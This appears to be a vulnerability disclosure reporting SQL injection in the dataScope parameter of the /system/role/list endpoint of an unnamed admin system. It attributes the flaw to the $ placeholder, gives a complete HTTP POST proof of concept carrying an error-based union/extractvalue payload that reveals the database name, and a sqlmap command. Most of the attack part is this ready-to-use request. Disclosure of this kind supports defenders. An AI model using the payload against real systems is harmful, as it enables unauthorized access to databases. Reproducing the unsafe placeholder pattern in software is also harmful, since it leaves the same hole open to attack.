 SQL injection exists in the dataScope parameter of the /system/role/list interface of the system.  
The cause of this vulnerability is the use of the $ placeholder symbol.  
![image](https://github.com/biantaibao/octopus_SQL/assets/131763503/098bbd63-78d1-425f-af06-b9717e33d153)  
Find the front-end interface of the interface and click search in the role management.  
![image](https://github.com/biantaibao/octopus_SQL/assets/131763503/ae83c28a-d6c6-4af9-9e5a-07a579672716)  
poc:   
POST /system/role/list HTTP/1.1  
Host: 127.0.0.1:9999  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
X-Requested-With: XMLHttpRequest  
Content-Length: 217   
Origin: http://127.0.0.1:9999  
Connection: close  
Referer: http://127.0.0.1:9999/system/role  
Cookie: JSESSIONID=d2cf469f-6b72-4685-b811-2d8b45623eeb

roleName=11&roleKey=11&status=&params%5BbeginTime%5D=&params%5BendTime%5D=&pageSize=10&pageNum=1&orderByColumn=roleSort&isAsc=asc&params[dataScope]
=union select 1,extractvalue(1,concat(0x7e,(select database()))),3 --+

Successfully viewed database。  
![image](https://github.com/biantaibao/octopus_SQL/assets/131763503/510e3b9f-ab71-43b9-b210-b6dfac68ec84)  
![image](https://github.com/biantaibao/octopus_SQL/assets/131763503/ba66d3fe-e99f-4b6e-895d-829fd5688732)  
sqlmap command：python sqlmap.py -r sql.txt   
![image](https://github.com/biantaibao/octopus_SQL/assets/131763503/044751fb-abf9-4b32-ae98-ffe3a6cd53bb)






